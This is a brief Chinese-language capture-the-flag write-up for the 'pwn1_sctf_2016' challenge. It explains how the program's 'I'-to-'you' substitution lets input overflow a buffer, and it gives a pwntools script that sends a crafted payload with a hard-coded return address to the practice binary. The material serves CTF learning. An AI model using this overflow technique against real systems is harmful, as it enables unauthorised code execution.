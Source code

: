 # pwn1_sctf_2016

## 程序分析

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-21_15-40-53.png)



**所以需要输入 20字符"I"替换为 "you",后满足 60字节长度，并突破输入长度的限制**



## Payload

```python
from pwn import *

io = process("/home/always/PWN/pwn1_sctf_2016")
#io = remote("node4.buuoj.cn",29876)

payload = flat(20*"I",4*"A",0x08048F0D)

io.sendline(payload)

io.interactive()
```

